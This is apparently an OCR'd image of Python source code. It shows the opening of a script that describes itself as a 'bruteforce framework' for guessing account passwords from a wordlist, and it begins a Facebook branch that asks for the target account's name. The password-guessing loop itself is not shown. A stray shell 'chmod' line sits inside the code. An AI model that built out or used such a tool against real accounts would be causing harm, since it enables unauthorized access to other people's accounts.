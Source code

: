  # -*- coding: utf-8 -*-
 chmod +x faitagram && chmod +x setup.py
import argparse, mechanize, os, sys, socks, socket
from time import sleep
from subprocess import call
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
from selenium.webdriver.support.ui import WebDriverWait
from pyvirtualdisplay import Display
from urllib2 import urlopen

reload(sys)

sys.setdefaultencoding('utf8')


W = '\033[0m'   # White
R = '\033[31m'  # Red
G = '\033[32m'  # Green
O = '\033[33m'  # Orange


def main():

    parser = argparse.ArgumentParser(description='Bruteforce framework written in Python')  # Parameters
    required = parser.add_argument_group('required arguments')
    required.add_argument('-s', '--service', dest='service')
    required.add_argument('-u', '--username', dest='username')
    required.add_argument('-w', '--wordlist', dest='password')
    parser.add_argument('-d', '--delay', type=int, dest='delay')

    args = parser.parse_args()

    service = args.service
    username = args.username
    wordlist = args.password
    delay = args.delay


    if os.path.exists(wordlist) == False:

        print(R + "Error : WordList not Found" + W)

        exit(1)


    if delay is None:

        delay = 1
    

    global Hash, fb_name

    os.system("clear")

    if service == "facebook":

        fb_name = raw_input(O + "Please Enter The NAME Of The Facebook Account : " + W)
